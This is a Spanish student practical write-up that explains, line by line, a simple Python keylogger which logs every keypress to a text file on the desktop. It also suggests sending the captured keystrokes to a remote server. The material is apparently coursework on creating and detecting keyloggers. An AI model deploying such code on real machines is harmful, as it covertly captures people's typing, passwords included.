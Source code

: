 ⌨️# Práctica 1: Creación y Detección de un Keylogger en Python, Explicación AEH
En este documento explicaré como he realizado la práctica aquí explicada: https://github.com/creyaro/SI_T5_P1

✅## ¿Cómo funciona el keylogger?
Explicaré mi keylogger por líneas:
  1. Importar la librería que vamos a utilizar.
     
     ```python
     import keyboard
     
     ```
  2. Haremos una función que escriba la tecla que ha pulsado el usuario rodeada por espacios para una mejor interpretación del output.
     
     ```python
     def on_key_event(event):
     f = open('C:\\Users\\PC03\\Desktop\\keylog.txt', 'a')
     if event.name == 'space':
         f.write(' ')
     f.write(str(event.name))
     if event.name == 'space':
         f.write(' ')
     
     ```
  3. Utilizar la función "on_press", para registrar la tecla que pulse el usuario.
     
     ```python
     keyboard.on_press(on_key_event)

     ```
  4. Utilizamos la función "wait" para esperar a que se pulse una tecla para finalizar el script en este caso la tecla "esc".
     
     ```python
     print("Presiona cualquier tecla. Pulsa 'Esc' para salir.")
     keyboard.wait('esc')

     ```

🆙## Áreas de mejora del keylogger
  ### Mejoras de lectura
  Esta mejora consiste en hacer que el texto que recogemos en el archivo de texto sea más legible, ya están implementadas algunas mejoras de legibilidad, pero igualmente se podría hacer que el texto fuese más legible y no escribiera comandos todos juntos como por ejemplo los "space" o "esc".
  
  ### Mejoras de envío de información
  La información podría ser enviada a algún equipo remotamente o a algún servidor mediante un archivo JSON.
  ### Mejoras de funcionalidad
  Podría tener más funciones como por ejemplo, hacer que registre el tiempo de pulsación de las teclas, darle un nombre concreto al evento o darle un ID.
  
⏺️## ¿Cómo usar el keylogger?
  El keylogger funciona de una forma muy simple, ejecutas el archivo .py y el script ya estará funcionando, este registrara todos los eventos que realicemos por teclado y los guardará en un archivo llamado keylog.txt ubicado en el escritorio.
